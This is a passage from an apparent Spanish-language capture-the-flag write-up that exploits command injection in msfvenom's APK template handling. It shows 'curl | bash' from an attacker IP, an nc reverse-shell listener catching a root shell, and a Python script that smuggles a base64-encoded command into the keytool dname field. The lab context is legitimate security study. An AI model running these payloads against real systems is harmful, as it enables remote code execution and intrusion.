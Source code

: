 ```sh
# Desde otra consola (simulando lo que hará la víctima gracias al RCE):
❯ curl 10.10.14.19 | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    54  100    54    0     0  53518      0 --:--:-- --:--:-- --:--:-- 54000
```

```sh
# Y desde una tercera consola estando en escucha con nc:
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.14.19] 33492
┌─[root@parrot]─[/home/guise]
└──╼ #
# Hemos recibido la reverse shell
```

Una vez expuesto el ejemplo en local vamos a realizarlo contra el objetivo. Primero, cambiemos el payload en el script de python3. También cambio el final de la línea del **dname** simplemente cambio sh por bash, por si acaso:

```python
.. SNIP ..
# Change me
payload = 'curl 10.10.14.19 | bash'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b64} | base64 -d | bash #"

.. SNIP ..
```

Ejecuto el script con python3 para generar el nuevo apk:

```sh
❯ python3 createAPK.py
[+] Manufacturing evil apkfile
Payload: curl 10.10.14.19 | bash
-dname: CN='|echo Y3VybCAxMC4xMC4xNC4xOSB8IGJhc2g= | base64 -d | bash #

  adding: empty (stored 0%)
Generando par de claves RSA de 2.048 bits para certificado autofirmado (SHA256withRSA) con una validez de 90 días
	para: CN="'|echo Y3VybCAxMC4xMC4xNC4xOSB8IGJhc2g= | base64 -d | bash #"
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmpv2wo4gko/evil.apk
Do: msfvenom -x /tmp/tmpv2wo4gko/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null
```
